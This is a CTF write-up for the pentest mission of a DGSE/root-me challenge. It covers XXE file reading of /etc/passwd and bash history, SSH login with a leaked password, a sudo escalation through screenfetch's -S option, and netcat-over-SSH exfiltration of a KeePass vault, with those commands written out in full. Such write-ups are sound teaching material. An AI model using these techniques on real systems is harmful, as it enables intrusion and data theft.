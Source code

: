 ```yaml
---
title: "DGSE pentest challenge write-up"
categories:
  - Pentest
tags:
  - CTF
  - XXE
---
```


## Intro

For the last month, DGSE (french intelligence agency) and [root-me](https://www.root-me.org/), hosted a challenge mainly aimed for students in IT/cybersec.

The challenge contains 6 missions, each one exploring a different domain, including AI, SOC analysis, forensic/reverse, pentest, APK reverse/crypto, and OSINT.

This post is a write-up for the pentest mission.


## Recon

We are given an URL leading to this simple website :

![website](/assets/images/post-20250508/01_recon.png)

It seems we can upload any Word document to add in it a tracker called "Victim ID". A second form allows us to upload a tracked Word file to read its "Victim ID".

In this challenge no additionnal recon is required, we will find soon enough this main page is vulnerable and will be our entry point.

Let's give a shot with this tracker !


## Initial foothold

I upload a simple word file, and the website send it back to me edited.
At opening, we can see a warning about unreadable content :

![word file](/assets/images/post-20250508/02_recon.png)

Even if the document's content is identical, it appears the file was indeed modified. Let's unzip the .docx and investigate.
Quickly enough we can find this in app.xml :

![app.xml](/assets/images/post-20250508/03_recon.png)

The website added a "VictimID" XML tag containing what would be a tracker ID.
I try to upload this modified word back in the website's second form :

![read victim ID](/assets/images/post-20250508/04_recon.png)

This is indeed my tracker ID. Now what is happening if I manually edit this ID in app.xml and upload it again ?

![read victim ID 2](/assets/images/post-20250508/05_recon.png)

We can have few ideas how to exploit this :

- XSS : but not really interesting for this challenge
- SQLi : this ID could be in a database
- SSTI : Web services often use template engine and might be badly secured. Moreover I found earlier this webapp is hosted on flask, and SSTI on jinja are common in CTFs

But after unsuccessful tries, I reminded to myself that this webapp is basically reading and writing a docx file, which is mostly XML. What if we could tamper with XML parsing such as [XXE injection](https://portswigger.net/web-security/xxe) ?

In its simplest form, a XXE could allow us to read local files, so let's try to read /etc/passwd : this is a common test, since this file should both exists and be readable by anyone.

![trying injection](/assets/images/post-20250508/06_injection.png)

You can see we need to add a `<!DOCTYPE>` tag with the filename (/etc/passwd) we want to read, an entity (&read) that will contains the file contents, and a tagname (VictimID) that will display our entity (the file content).

![trying injection 2](/assets/images/post-20250508/07_injection.png)

It works ! And this gaves us a first finding with three non-standard users : document-user, executor and administrator.

This should be interesting to investigate.


## Automate file reading

Before going further, I will automate the file reading process : I don't know yet how many files I will need to read before I find either a way to escalate privileges or to another access, and modifying manually the payload for each try will be painful.

For our script to work we will need to prepare :

- An example word file unzipped in a folder (named "template" in my script)
- A copy of app.xml with the XXE exploit and a placeholder for the filename we want to read

Our script will need to :

- Read target filename from script args 
- Read an app.xml template
- Remplace the placeholder with our target filename
- Write new app.xml
- Zip template's directory
- Rename .zip to .docx
- Upload to vulnerable server
- Read result (remote file contents or error if not found/not accessible)


Complete code is [Here](/assets/images/post-20250508/exploit_xxe.py)


## Privesc 1

When initial foothold only allows me to read files, my usuals goto are
**/etc/passwd** to first identify users and home directories.
With this I can try to retrieve SSH keyfiles and shell history.


> Optional :
> Reading **/proc/self/status** tells us we are inside a flask process with UID 999 (document-user). That means when reading files, we have document-user's rights. Usually we would to start investigating with this user home directory.


I find that **/home/document-user/.bash_history** exists, it contains 31 lines including :

- A file named **/plans/next-op.txt**, but I couldn't read it at this point nor later
- That the flask webapp is located in **/app/app.py**
- A vim on **/etc/hosts**. Hosts file contains `172.18.0.2 document-station`. Maybe another server on an internal network ? But checking **/etc/hostname** shows document-station is this server hostname.
- And... what do we got here ? `echo \"cABd*****************\" >> /tmp/exec_ssh_password.tmp`

I first try to log in as document-user using this password, but got a **connection refused** error. No SSH server is listening on port 22 ok, but maybe somewhere else ?
Reading **/etc/ssh/sshd_config** we find out a SSH server is configured on the 22222 port.

Loging as **document-user** I am now getting an Incorrect Password error. I try again as **executor**, and I'm logged in !


## Privesc 2

Everytime I gain access to a shell, I give a try with `sudo -l`

And this is a good call, this command gives this : 
```
(administrator) NOPASSWD: /usr/bin/screenfetch
```
That means we can start `screenfetch` as administrator without password. Pretty nice, but I don't know this program, and it isn't listed in [GTFOBins](https://gtfobins.github.io)

This program is actually a bash script, but instead of reading it all, let's check the help `-h` parameter.

```
   -s [-u IMGHOST]    Using this flag tells the script that you want it
                      to take a screenshot. Use the -u flag if you would like
                      to upload the screenshots to one of the pre-configured
                      locations. These include: teknik, imgur, mediacrush and hmp.

   -S 'COMMAND'       Here you can specify a custom screenshot command for
                      the script to execute. Surrounding quotes are required.
```

So this script allows to capture a screenshot, and we can provide a custom command for this !

Don't mind me, I'm just trying to take a screenshot with `bash`...
```
sudo -u administrator /usr/bin/screenfetch -s -S "bash"
```
And bam, a shell as **administrator** !

## Data exfiltration

It's not done yet; in administrator home directory, we find two files : **vault.kdbx**, a keepass file, and **logo.jpg**.

Here comes the tricky part : we want to retrieve these files, but how ? Usually I would use `python -m http.server` or a netcat/socat listener, but we are in a docker, and any port we open is not routed.
Moreover, unlike some CTFs, we are not on the target's network and a listener open on our attacking machine wouldn't be accessible from the target.
Probably a ngrok/lokal.so would work, but I am not familiar with these.

Since we have a SSH access why not use it ? But we only got a SSH access to **executor**, not **administrator**.
The solution I found is pretty simple : first setup a netcat between **administrator** and **executor**, and then start a netcat at SSH connection:

```
#In administrator shell
nc -lvnp 9001 < vault.kdbx

#From attacker
ssh -p 22222 executor@163.172.67.183 "nc 127.0.0.1 9001" > vault.kdbx
```

This second netcat connect to the first one, reading the file, and pass it to the SSH connection, which is outputed in a local file named **vault.kdbx**, just like the original.
Maybe there is a more practical way, but I like this one.

## Opening the vault

After we retrieve vault.kdbx, how to open it ? Weirdly enough `keepass2john` tells this file version is not supported, and cracking it using bruteforce might be painful anyway.

Wait, there is still this `logo.jpg` file, what about it ?
I looked for a while at steganography but found nothing. As I open the `vault.kdbx` and stare at the Keepass GUI, it jumps at my face : we can open a vault using a key or a *keyfile*.

I select my **logo.jpg**, and it's done ! The flag is inside the vault.

